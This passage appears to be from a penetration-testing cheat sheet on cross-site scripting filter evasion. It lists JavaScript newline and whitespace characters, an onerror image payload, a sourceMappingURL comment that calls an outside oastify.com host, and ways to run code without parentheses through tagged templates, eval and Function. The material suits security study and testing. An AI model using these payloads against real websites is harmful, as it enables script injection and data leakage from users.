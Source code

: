 ```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10); alert('//\nalert(1)') //0x0a
String.fromCharCode(13); alert('//\ralert(1)') //0x0d
String.fromCharCode(8232); alert('//\u2028alert(1)') //0xe2 0x80 0xa8
String.fromCharCode(8233); alert('//\u2029alert(1)') //0xe2 0x80 0xa9
```

**JavaScript whitespaces**

```javascript
log=[];
function funct(){}
  for(let i=0;i<=0x10ffff;i++){
      try{
        eval(`funct${String.fromCodePoint(i)}()`);
        log.push(i);
      }
      catch(e){}
  }
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```

**Javascript inside a comment**

```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```

**JavaScript without parentheses**

````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
  // or any DOMXSS sink such as location=name

// Backtips
  // Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

  // To pass several arguments you can use
function btt(){
    console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

  //It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

  // .replace can use regexes and call a function if something is found
````